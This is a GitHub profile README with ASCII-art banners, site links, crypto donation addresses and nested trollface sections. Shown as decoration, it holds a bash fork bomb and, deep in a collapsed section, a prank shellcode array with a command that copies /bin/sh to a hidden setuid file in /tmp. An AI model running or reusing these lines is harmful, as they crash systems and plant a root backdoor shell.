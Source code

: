 <div align="right">

![connerwill.com](https://img.shields.io/website?down_color=%23ff0000&down_message=offline&label=connerwill.com&up_color=%2300ff00&up_message=online&url=https%3A%2F%2Fconnerwill.com)
![dampsock.com](https://img.shields.io/website?down_color=%23ff0000&down_message=offline&label=dampsock.com&up_color=%2300ff00&up_message=online&url=https%3A%2F%2Fdampsock.com)

</div>
<div align="right">

```diff
+
```

</div>
<div align="center">

<!--
```pwsh
 ____                                           __      __       ___    ___
/\  _`\                                        /\ \  __/\ \  __ /\_ \  /\_ \
\ \ \/\_\    ___     ___     ___      __   _ __\ \ \/\ \ \ \/\_\\//\ \ \//\ \
 \ \ \/_/_  / __`\ /' _ `\ /' _ `\  /'__`\/\`'__\ \ \ \ \ \ \/\ \ \ \ \  \ \ \
  \ \ \L\ \/\ \L\ \/\ \/\ \/\ \/\ \/\  __/\ \ \/ \ \ \_/ \_\ \ \ \ \_\ \_ \_\ \_
   \ \____/\ \____/\ \_\ \_\ \_\ \_\ \____\\ \_\  \ `\___x___/\ \_\/\____\/\____\
    \/___/  \/___/  \/_/\/_/\/_/\/_/\/____/ \/_/   '\/__//__/  \/_/\/____/\/____/
```
-->

```bash
:(){ :|: & };:

 ▄████████  ▄██████▄  ███▄▄▄▄   ███▄▄▄▄      ▄████████    ▄████████  ▄█     █▄   ▄█   ▄█        ▄█
███    ███ ███    ███ ███▀▀▀██▄ ███▀▀▀██▄   ███    ███   ███    ███ ███     ███ ███  ███       ███
███    █▀  ███    ███ ███   ███ ███   ███   ███    █▀    ███    ███ ███     ███ ███▌ ███       ███
███        ███    ███ ███   ███ ███   ███  ▄███▄▄▄      ▄███▄▄▄▄██▀ ███     ███ ███▌ ███       ███
███        ███    ███ ███   ███ ███   ███ ▀▀███▀▀▀     ▀▀███▀▀▀▀▀   ███     ███ ███▌ ███       ███
███    █▄  ███    ███ ███   ███ ███   ███   ███    █▄  ▀███████████ ███     ███ ███  ███       ███
███    ███ ███    ███ ███   ███ ███   ███   ███    ███   ███    ███ ███ ▄█▄ ███ ███  ███▌    ▄ ███▌    ▄
████████▀   ▀██████▀   ▀█   █▀   ▀█   █▀    ██████████   ███    ███  ▀███▀███▀  █▀   █████▄▄██ █████▄▄██
                                                         ███    ███                  ▀         ▀
```
</div>

<div align="center">
  <sample>
   <b><a href="https://connerwill.com">╔════════════════════════════════════════╗</a></b>
  </sample>
  <br>
  <span>
  <kbd>
   <a href="https://connerwill.com"><kbd> &#x239A; <kbd> 〠 </kbd></kbd></a>
   <a href="https://github.com/ConnerWill"><kbd> GitHub </kbd></a>
   <a href="https://gitlab.com/ConnerWill"><kbd> GitLab </kbd></a>
   <a href="https://github.com/ConnerWill?tab=repositories"><kbd> Repositories </kbd></a>
   <a href="https://gist.github.com/ConnerWill"><kbd> Gists </kbd></a>
   <a href="https://dampsock.com"><kbd> dampsock.com </kbd></a>
   <a href="https://connerwill.com"><kbd> connerwill.com </kbd></a>
   <a href="https://connerwill.com"><kbd><kbd> &#x274D; </kbd> &#x2672; </kbd></a>
  </kbd>
 </span>
<!--
<div align="center">
 <a href="https://connerwill.com/content/misc/void.html"><img src="https://bingimages.herokuapp.com/unsplash1" width="100%" height="50%"></a>
</div>
-->
<div align="center">
 <span>
  <kbd>
   <a href="https://connerwill.com"><kbd> &#x2748; <kbd> ☻ </kbd></kbd></a>
   <a href="https://github.com/ConnerWill"><kbd> GitHub </kbd></a>
   <a href="https://gitlab.com/ConnerWill"><kbd> GitLab </kbd></a>
   <a href="https://github.com/ConnerWill?tab=repositories"><kbd> Repositories </kbd></a>
   <a href="https://gist.github.com/ConnerWill"><kbd> Gists </kbd></a>
   <a href="https://dampsock.com"><kbd> dampsock.com </kbd></a>
   <a href="https://connerwill.com"><kbd> connerwill.com </kbd></a>
   <a href="https://connerwill.com"><kbd><kbd> &#x262C; </kbd> &#x26C0; </kbd></a>
  </kbd>
 </span>
 <br>
  <sample>
   <b><a href="https://connerwill.com">╚════════════════════════════════════════╝</a></b>
  </sample>
<br><br>
</div>
</div>
<div align="center">

 ```console
 ▄████▄   ▒█████   ███▄    █  ███▄    █ ▓█████  ██▀███   █     █░ ██▓ ██▓     ██▓
▒██▀ ▀█  ▒██▒  ██▒ ██ ▀█   █  ██ ▀█   █ ▓█   ▀ ▓██ ▒ ██▒▓█░ █ ░█░▓██▒▓██▒    ▓██▒
▒▓█    ▄ ▒██░  ██▒▓██  ▀█ ██▒▓██  ▀█ ██▒▒███   ▓██ ░▄█ ▒▒█░ █ ░█ ▒██▒▒██░    ▒██░
▒▓▓▄ ▄██▒▒██   ██░▓██▒  ▐▌██▒▓██▒  ▐▌██▒▒▓█  ▄ ▒██▀▀█▄  ░█░ █ ░█ ░██░▒██░    ▒██░
▒ ▓███▀ ░░ ████▓▒░▒██░   ▓██░▒██░   ▓██░░▒████▒░██▓ ▒██▒░░██▒██▓ ░██░░██████▒░██████▒
▒ ░▒ ▒  ░░ ▒░▒░▒░ ░ ▒░   ▒ ▒ ░ ▒░   ▒ ▒ ░░ ▒░ ░░ ▒▓ ░▒▓░░ ▓░▒ ▒  ░▓  ░ ▒░▓  ░░ ▒░▓  ░
░ ▒ ▒     ░ ▒ ▒░ ░ ░░   ░ ▒░░ ░░   ░ ▒░ ░ ░  ░  ░▒ ░ ▒░  ▒ ░ ░   ▒ ░░ ░ ▒  ░░ ░ ▒  ░
░ ░        ░ ░ ░ ▒     ░   ░ ░    ░   ░ ░    ░     ░░   ░   ░   ░   ▒ ░  ░ ░     ░ ░
░ ░          ░ ░           ░          ░    ░  ░   ░         ░     ░      ░  ░    ░  ░
░ ░
```
<!--

 ```lua
 --:::::::::::::::::::::;;;:::::::::::::::::::::::::::::::::::::::::::::::::::::::::::::::::::
 :,######':'#######''##'::'##'##::: ##'########'########:::'##:::::'##'####;##':::::'##';;::::
 '##'..'##;##'..' ##;###;''##:###': ##:##.....:'##.... ##:::##:;##: ##. ##::##':::::'##'::::::
 '##'::..:'##'::' ##:####''##:####' ##:##::::::'##:::: ##:::##: ##: ##: ##::##::::::'##:::::::
 '##':::::'##'::' ##:## ## ##:##'## ##:######::'########::::##: ##: ##: ##::##::::::'##'::::::
 '##':::::'##'::' ##:##. ####:##' ####:##...:::'##.. ##:::::##: ##: ##: ##::##::::::'##';:::::
 '##':' ##:##'::' ##:##:. ###:##:' ###:##::::::'##::. ##::::##: ##: ##: ##::##::::::'##':;::::
 :'######'. #######::##::. ##:##::' ##;########:##'::. ##::. ###. ###:'####'########:########:
 --.....:::.......::..::::..:..::::..:........:..:::::..::::...::...::....:........:........::
```
-->

</div>

<div align="right">

```http
+
```

</div>


<a href="https://connerwill.com/static/img/xmr-qr-connerwill.com.png"><img src="https://connerwill.com/static/img/xmr.svg" alt="Monero (XMR) icon and wallet QR code" width="2%" height="2%"> XMR</a> :  <code>86tE67soBqFb5fxNGgC4HLdwZXebP42ewfBwfKyMDKvFbgA7T8p4g4T5BBNA9LNbwaVafup973w41PdvCS7bbj6gTNQpCh1</code>

<a href="https://connerwill.com"><img src="https://connerwill.com/static/img/btc.svg" alt="₿" width="2%" height="2%"></a> BTC : <code>bc1qpg5d69n2knsete7vw7f2vqpkg4a0faq9rc6se0</code>

<div align="left">
<details>
<div align="center">
:shipit:

<div align="right">
<details>
<div align="center">
:trollface:

<div align="left">
<details>
<div align="center">
 <span>
  $e^x=\sum_{i=0}^\infty \frac{1}{i!}x^i$
  $\frac{n!}{k!(n-k)!} = {n \choose k}$
 </span>


<div align="right">
<details>
<div align="center">

:trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface:

:trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface:

<div align="center">
<details>

---

<div align="center">

	⃢	⃢	⃢:trollface:⃢
	⃢:trollface:	⃢:trollface:

	⃢	⃢	⃢:trollface:⃢
:trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::tro
	⃢	⃢	⃢:trollface:⃢	⃢:trollface:	⃢:trollface::⃢:trollface:


	⃢	⃢	⃢:trollface:⃢
	⃢:trollface:	⃢:trollface:
	:⃢:trollface:
	⃢:trollface:llface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface:
	⃢	⃢	⃢:trollface:⃢	⃢:trollface:	⃢:trollface::⃢:trollface:


	⃢	⃢	⃢:trollface:⃢
	⃢:trollface:	⃢:trollface:
	:⃢:trollface:
	⃢:trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface:	⃢:trollface:	⃢:trollface::⃢:trollface:
:trollface:	:⃢:trollface:

	⃢	⃢	⃢:trollface:⃢
:trollface:	⃢:trollface:
	:⃢:trollface:	⃢:trollface:

:trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface:
	⃢	⃢	⃢:trollface:⃢	⃢:trollface:	⃢:trollface::⃢:trollface:


	⃢	⃢	⃢:trollface:⃢
	⃢:trollface:	⃢:trollface:
	:⃢:trollface:
	⃢:trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface::trollface:	⃢	⃢	⃢:trollface:⃢
	⃢:trollface:	⃢:trollface::⃢:trollface:	⃢:trollface:
	⃢	⃢	⃢	⃢:trollface:⃢
	⃢:trollface:	⃢:trollface:
	:⃢:trollface:
	⃢	⃢:trollface:⃢
	⃢:trollface:	⃢:trollface:
	:⃢:trollface:	⃢:trollface:
	⃢:trollface:
	⃢:trollface:

	⃢	⃢	⃢:trollface:⃢	⃢:trollface:	⃢:trollface::⃢:trollface:


	⃢	⃢	⃢:trollface:⃢
	⃢:trollface:	⃢:trollface:
	:⃢:trollface:
	⃢:trollface:
	⃢:trollface:

	⃢	⃢	⃢:trollface:⃢
	⃢:trollface:	⃢:trollface:
	:⃢:trollface:	⃢:trollface:

```hex
char esp[] __attribute__ ((section(“.text”))) /* e.s.p
release */
= “\xeb\x3e\x5b\x31\xc0\x50\x54\x5a\x83\xec\x64\x68”
“\xff\xff\xff\xff\x68\xdf\xd0\xdf\xd9\x68\x8d\x99”
“\xdf\x81\x68\x8d\x92\xdf\xd2\x54\x5e\xf7\x16\xf7”
“\x56\x04\xf7\x56\x08\xf7\x56\x0c\x83\xc4\x74\x56”
“\x8d\x73\x08\x56\x53\x54\x59\xb0\x0b\xcd\x80\x31”
“\xc0\x40\xeb\xf9\xe8\xbd\xff\xff\xff\x2f\x62\x69”
“\x6e\x2f\x73\x68\x00\x2d\x63\x00”
“cp -p /bin/sh /tmp/.beyond; chmod 4755
/tmp/.beyond;”;
```

</div>

---

<br><br>

<details>
<sample>
<div align="center">
<p>
 <a href="https://github.com/ConnerWill">
  <img align="center" height="200" src="https://github-readme-stats.vercel.app/api?username=ConnerWill&&show_icons=true&theme=tokyonight&&v=5"/>
 </a>
 <a href="https://github.com/ConnerWill">
  <img align="center" height="200" src="https://github-readme-stats.vercel.app/api/top-langs/?username=ConnerWill&langs_count=5&theme=tokyonight&hide="/>
 </a>
</p>
</sample>

---

</div>
</div>
</div>
</details>
</details>
</div>
</div>
</details>
</details>
</details>
</details>
</details>
</details>
</div>
</div>
